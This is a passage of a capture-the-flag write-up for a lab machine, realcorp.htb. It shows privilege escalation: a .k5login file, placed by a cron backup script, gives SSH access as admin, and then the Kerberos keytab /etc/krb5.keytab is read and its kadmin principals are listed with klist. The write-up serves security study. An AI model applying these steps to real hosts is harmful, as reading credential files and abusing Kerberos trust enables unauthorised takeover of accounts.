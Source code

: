 Now if the next cron triggers, it will add the file to the **/home/admin** directory, as we have seen in the
**log_backup.sh** script. Because the **.k5login** file is stored in the admin's home directory, our **j.nakazawa** user can get access
as the admin user:
```
┌──(kali㉿kali)-[~]
└─$ ssh admin@realcorp.htb
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Sat Jul 30 17:38:01 2022
[admin@srv01 ~]$ id
uid=1011(admin) gid=1011(admin) groups=1011(admin),23(squid) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[admin@srv01 ~]$ 

```
YAAAAAAAAAAAAAAAASH we are the admin user!

BUUUUUUUUUUUUUT we are still not there yet!


## Kerberos Keytab
After some enummerating, I noticed that I was able to read **krb5.keytab**. This file
is only readable by the admin or root user:
```
[admin@srv01 etc]$ ls -la /etc/krb5.keytab
-rw-r-----. 1 root admin 1403 Dec 19  2020 /etc/krb5.keytab

```
I found some more information about keytab on this [website](https://web.mit.edu/kerberos/krb5-devel/doc/basic/keytab_def.html).
Keytab is a file that stores keys for principals.

To see the list of principals we can use **klist -k**:
```
                                                                                                   �[admin@srv01 etc]$ 
[admin@srv01 etc]$ klist -k
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB

```
We can see that our user is also **kadmin** that has admin and change password privileges. This
means that we can add principals to the **keytab** file.
